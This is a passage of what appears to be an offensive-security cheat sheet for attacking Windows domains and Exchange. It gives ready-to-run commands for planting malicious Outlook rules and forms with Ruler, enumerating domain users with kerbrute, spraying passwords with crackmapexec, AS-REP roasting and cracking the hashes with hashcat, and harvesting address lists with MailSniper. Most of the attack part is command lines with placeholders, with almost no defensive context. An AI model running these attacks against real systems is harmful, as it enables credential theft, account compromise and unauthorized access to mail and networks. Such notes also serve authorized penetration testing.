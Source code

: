       - https://gist.github.com/monoxgas/7fec9ec0f3ab405773fc
    - Run a local Outlook instance using the target's credentials and import the malicious rule you created (File --> Manager Rules & Alerts --> Options --> Improt rules)
    - Send the trigger email. 
- Malicious Outlook Forms
  - If the path is applied that disables Run Application and Run Script rules this still works!
  - Attack prequisites:
    - Identification of valid credentials
    - Exchange service access 
  - KB4011091 for outlook 2016 seems to block VBSCript in forms
  - https://github.com/sensepost/ruler/wiki/Forms
  - ```.\ruler --email <EMAIL> form add --suffix form_name --input /tmp/command.txt --send```

# From the inside
## Web Attacks2
- It is possible to get access by abusing a lot of web attacks which might give you access to the system. There are to many to subscribe here, but I might make a list someday.

## Password Attacks2
### Enumerate users
- https://github.com/ropnop/kerbrute
```
sudo ./kerbrute userenum -d <domain> domain_users.txt -dc <IP>
```

#### Spray one password against all users
- Use ```--continue-on-success``` too keep going after 1 successful login
```
crackmapexec smb <DC IP> -d <DOMAIN> -u domain_users.txt -p <PASSWORD LIST> | tee passwordspray.txt
```

### AS-REP Roasting
```
python3 GetNPUsers.py <DOMAIN>/ -usersfile domain_users.txt -format hashcat -outputfile AS_REP_hashcat.txt
```

#### Crack hashes with hashcat
```
hashcat -a 0 -m 18200 hash.txt rockyou.txt
```

### Exchange / OWA
- All the attacks from the outside works from the inside!

#### Enumerate all mailboxes
- https://github.com/dafthack/MailSniper
```
Get-GlobalAddressList -ExchHostname <EXCH HOSTNAME> -UserName <DOMAIN>\<USER> -Password <PASSWORD> -Verbose -OutFile global-address-list.txt
```
